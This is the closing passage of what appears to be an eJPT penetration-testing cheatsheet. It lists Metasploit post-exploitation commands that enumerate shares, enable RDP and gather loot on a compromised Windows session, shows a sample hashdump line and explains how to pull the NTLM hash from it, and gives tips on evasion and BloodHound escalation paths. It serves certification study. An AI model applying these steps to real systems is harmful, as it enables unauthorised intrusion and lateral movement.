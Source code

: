```sh
use post/windows/gather/enum_shares
use post/windows/manage/enable_rdp
set SESSION <id>

loot
```
---
## References

https://blog.syselement.com/ine/courses/ejpt/ejpt-cheatsheet

https://www.offsec.com/metasploit-unleashed/fun-incognito/

https://www.offsec.com/metasploit-unleashed/meterpreter-basics/

https://github.com/GhostPack/Rubeus/

https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

## Final Notes
- **Multitask and dont just wait for scans to finish**
- **Always verify attack prerequisites** (e.g., SMB signing, LLMNR/NBT-NS status)
- **Check for privilege escalation paths** in BloodHound
- **Monitor logs for detection & evasion techniques**

- **`[NTLM-hash]` is taken from the 4th part of a hashdump E.G:**
```sh
Administrator:500:b512c1f3a8c0e7241aa818381e4e751b:1891f4775f676d4d10c09c1225a5c0a3:::
```

So from the Hashdump above we will be using:
```sh
1891f4775f676d4d10c09c1225a5c0a3
```

**Stay Ethical and Hope you enjoyed this simple cheatsheet!**
